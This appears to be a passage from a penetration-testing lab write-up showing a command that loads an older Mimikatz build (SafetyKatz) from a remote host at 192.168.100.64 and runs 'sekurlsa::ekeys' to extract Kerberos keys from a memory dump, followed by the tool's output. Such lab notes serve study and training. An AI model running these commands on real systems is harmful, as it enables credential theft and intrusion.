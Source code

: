 <br/>

Try to use an older version of Mimikatz:

```
Loader.exe -Path http://192.168.100.64/SafetyKatz_old.exe "sekurlsa::ekeys" "exit"
```

![picture 39](images/82290923633ceca101ee1d1c057f4e75e96aa8fb76dfa402415dbf2bd9ac760a.png)  

Result:

```
  .#####.   mimikatz 2.1.1 (x64) built on Jul  7 2018 03:36:26 - lil!
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # Opening : 'C:\Windows\Temp\debug.bin' file for minidump...

Authentication Id : 0 ; 26359 (00000000:000066f7)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 1/8/2021 1:57:23 AM
SID               : S-1-5-96-0-0
```